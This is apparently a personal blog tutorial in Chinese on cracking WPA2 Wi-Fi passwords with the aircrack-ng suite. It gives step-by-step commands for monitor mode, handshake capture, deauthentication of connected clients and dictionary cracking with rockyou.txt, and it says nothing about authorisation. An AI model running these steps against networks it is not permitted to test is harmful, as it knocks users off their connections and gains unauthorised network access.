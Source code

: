 ```yaml
---
title: aircrack-ng
date: 2019-12-10 19:35:51
categories: 虚拟机
tags: 
- 安全

---
```


# aircrack-ng wifi 渗透

## 小知识

1. 现在的路由器基本都是WPA2的加密方式

2. Aircrack-ng是一个包含了多款工具的套装：

   | **组件名称**    | **描  述**                                                   |
   | :-------------- | ------------------------------------------------------------ |
   | **aircrack-ng** | 主要用于WEP及WPA-PSK密码的恢复，只要airodump-ng收集到足够数量的数据包，aircrack-ng就可以自动检测数据包并判断是否可以破解 |
   | **airmon-ng**   | 用于改变无线网卡工作模式，以便其他工具的顺利使用             |
   | **airodump-ng** | 用于捕获802.11数据报文，以便于aircrack-ng破解                |
   | **aireplay-ng** | 在进行WEP及WPA-PSK密码恢复时，可以根据需要创建特殊的无线网络数据报文及流量 |
   | **airserv-ng**  | 可以将无线网卡连接至某一特定端口，为攻击时灵活调用做准备     |
   | **airolib-ng**  | 进行WPA Rainbow Table攻击时使用，用于建立特定数据库文件      |
   | **airdecap-ng** | 用于解开处于加密状态的数据包                                 |
   | **tools**       | 其他用于辅助的工具，如airdriver-ng、packetforge-ng等         |

3. aireplay-ng当前支持的攻击种类如下：

   - Attack 0：解除认证攻击
   - Attack 1：伪造认证攻击
   - Attack 2：交互式注入攻击
   - Attack 3：ARP请求包重放攻击
   - Attack 4：chopchop Korek攻击
   - Attack 5：碎片交错攻击
   - Attack 6：Cafe-latte 攻击
   - Attack 7：面向客户的碎片攻击
   - Attack 8：WPA迁移模式
   - Attack 9：数据包注入测试

## 准备阶段

### 查看网卡

```
ifconfig
```

- 可以看到里面有个wlan0，如果没有的话就把无线网卡拔了再插一下。直到找到那个wlan0为止。
- 一定要保证它现在没有连接到任何wifi。上面那个wlan0里面没有ip地址什么的就说明现在不在连接中。

### 杀进程

```
airmon-ng check kill
```

### 载入无线网卡驱动，激活无线网卡至monitor即监听模式

就下面一句就可以了

```
#sudo ifconfig wlan0 up
airmon-ng start wlan0
```

- 可以看到下面写了monitor mode enable on **wlan0mon**

  重点!这句话的意思是，在监听模式下，无线网卡的名称已经变为了wlan0mon。

### 重启网卡

*感觉木啥用,随便搞不搞都行.*

``` 
sudo ifconfig wlan0mon down
sudo iwconfig wlan0mon mode monitor
sudo ifconfig wlan0mon up 
```

## 探索阶段

查看周围wifi的各种信息

```
airodump-ng wlan0mon
```

- **bssid**:mac地址
- essid:wifi名称
- **ch**:channel信道
- enc:加密方式
- 下半部分的表罗列出连接到我连到的wifi内的设备的mac地址

## 抓包阶段

我们已经看到了要攻击的路由器的mac地址和其中的客户端的mac地址，还有工作频道。执行：

```
airodump-ng wlan0mon --bssid 路由器的mac地址 -c 信道 -w wpa
```

- --bssid 是路由器的mac地址
- -w 是写入到文件wpa中
- -c 11 是频道11

## 攻击阶段

这里为了获得破解所需的WPA2握手验证的整个完整数据包，我们将会发送一种称之为“Deauth”的数据包来将已经连接至无线路由器的合法无线客户端强制断开，此时，客户端就会自动重新连接无线路由器，我们也就有机会捕获到包含WPA2握手验证的完整数据包了。

```
aireplay-ng -0 1 –a 路由mac地址 -c 目标mac地址 wlan0mon
```

- -0 采用deauth攻击模式，后面跟上攻击次数
- -a 后跟路由器的mac地址
- -c 后跟客户端的mac地址

注意看抓包页面右上角是否出现**WPA handshake [路由地址]**

这步很重要,要反复直到刷出

## 破解阶段

**用kali自带字典爆破**

1. 看看

```
ls
```

2. 使用Kali Linux中默认存在的字典，目录为/usr/share/wordlists/rockyou.txt.zip，其中需要使用命令来解压：

这步只需要做一次，下次就不用做了，因为已经解压好了

如果出现错误，按路径找到文件手动解压

~~这操蛋的人生~~

```
gunzip /usr/share/wordlists/rockyou.txt.zip
```

这里顺便记录一下Kali中几个常用的字典文件的位置：

/usr/share/john/password.lst

/usr/share/wfuzz/wordlist

/usr/share/ wordlists

3. 破解

至于这里为什么是wpa-04，因为我~~傻傻的~~做了四次抓包。

```
aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa-04.cap
```

**常规**

使用aircrack-ng进行破解

1. 先看看我们抓到的握手包是什么名字

```
ls
```

可以看到一个叫做longas-01.ivs的，这个就是我们要破解的文件。
这时候我们需要准备一个字典文件用来破解这个longas-01.ivs。

2. 可以使用crunch这个软件生成字典。
3. 破解

```
aircrack-ng -w dict1.txt longas-01.ivs
```

此时的破解速度跟使用的机器性能和字典大小有关。为了节省时间可以把密码直接加入到字典中了。

